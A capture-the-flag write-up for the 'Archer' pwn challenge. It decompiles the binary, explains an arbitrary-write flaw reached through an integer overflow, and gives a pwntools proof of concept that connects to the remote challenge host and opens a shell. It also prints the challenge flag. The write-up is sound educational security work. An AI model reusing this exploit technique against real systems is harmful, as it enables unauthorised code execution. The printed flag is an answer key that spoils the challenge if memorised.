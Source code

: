 ```yaml
---
grand_parent: Categories
parent: Pwn
title: Archer
nav_order: 1
---
```


# Archer
`It's battle time! We're giving you one shot, one kill - choose wisely.`

## Challenge
> TLDR: Input an address so that supplied address + 0x500000 = address of `code` variable

Ghidra's decompiled `main()`
```c
undefined8 main(void)

{
  char *pcVar1;
  char local_d [5];
  
  puts("It\'s battle day archer! Have you got what it takes?");
  printf("Answer [yes/no]: ");
  fflush(stdout);
  fgets(local_d,5,stdin);
  pcVar1 = strstr(local_d,"no");
  if (pcVar1 != (char *)0x0) {
    puts("Battle isn\'t for everyone.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Awesome! Make your shot.");
  makeshot();
  puts("Hope you shot well! This will decide the battle.");
  if (code == 0x13371337) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("WE WON!");
  fflush(stdout);
  system("/bin/sh");
  return 0;
}
```

To spawn a shell, we need to modify the value of `code` variable (located at 0x404068) so that it does not contain 0x13371337 value.

ASM snippet of `makeshot()` 
```
LEA        RAX=>local_10,[RBP + -0x8]
MOV        RSI,RAX
LEA        RDI,[DAT_00402109] 
MOV        EAX,0x0
CALL       <EXTERNAL>::__isoc99_scanf
MOV        RAX,qword ptr [RBP + local_10]
ADD        RAX,0x500000
MOV        qword ptr [RBP + local_10],RAX
MOV        RAX,qword ptr [RBP + local_10]
MOV        qword ptr [RAX],0x0
```

The above ASM shows that the program is vulnerable to arbitrary modification. This is because local_10 is controlled by us. We can provide any address we want and change the value of (user supplied address + 0x500000) address to 0.

The following output shows that we can overwrite the value of `code` variable.
```bash
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
-snip-
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/kali/Downloads/rarctf/archer
-snip-
```

Idea: Provide an address so that supplied address + 0x500000 = address of `code` variable

Working POC:
```python
from pwn import *

offset = b'FFFFFFFFFFF04068' # 0x404068 - 0x500000
#r = process('./archer')
r = remote('193.57.159.27', 43092)
r.recvuntil(b'no]: ')
r.sendline(b'yes')
r.recvuntil(b'shoot?\n')
r.sendline(offset)
r.interactive()
```

Flag: `rarctf{sw33t_sh0t!_1nt3g3r_0v3rfl0w_r0cks!_170b2820c9}`